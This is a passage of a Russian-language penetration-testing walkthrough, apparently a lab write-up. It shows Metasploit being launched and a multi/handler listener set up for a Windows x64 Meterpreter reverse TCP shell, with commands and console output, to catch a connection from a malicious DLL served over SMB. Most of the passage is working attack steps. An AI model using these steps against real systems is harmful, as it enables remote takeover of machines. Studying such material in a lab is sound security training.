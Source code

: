 Запуск Метасплоит
```commandline
root@attackbox:~/Desktop/pn# msfconsole 
=[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: To save all commands executed since start up to a file, use the makerc command

msf5 >
```
После успешной загрузки Metasploit необходимо настроить обработчик для приема входящего соединения от вредоносной DLL. 

Выполните следующие параметры команд:
```commandline
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost VALUE 
set lport VALUE
```
Примечание : значения LHOST и LPORT должны быть теми же, которые вы использовали для создания вредоносной DLL. 

Настройте Метасплоит слушатель
```commandline
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.0.100
lhost => 192.168.0.100 msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) >
```
Затем запустите его, чтобы он активно ожидал соединения. 

Запустить прослушиватель для приема входящих подключений
```commandline
msf5 exploit(multi/handler) > run -j 
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP on 192.168.0.100:4444
```
Это  -j просто означает, что это можно сделать работой. 

Проверьте Метасплоит Статус работы
```commandline
msf5 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.0.100:4444

msf5 exploit(multi/handler) >
```
Отлично, теперь вам нужно разместить вредоносную DLL в общем ресурсе SMB, запущенном на компьютере атакующего. В 
этом примере мы будем использовать AttackBox.
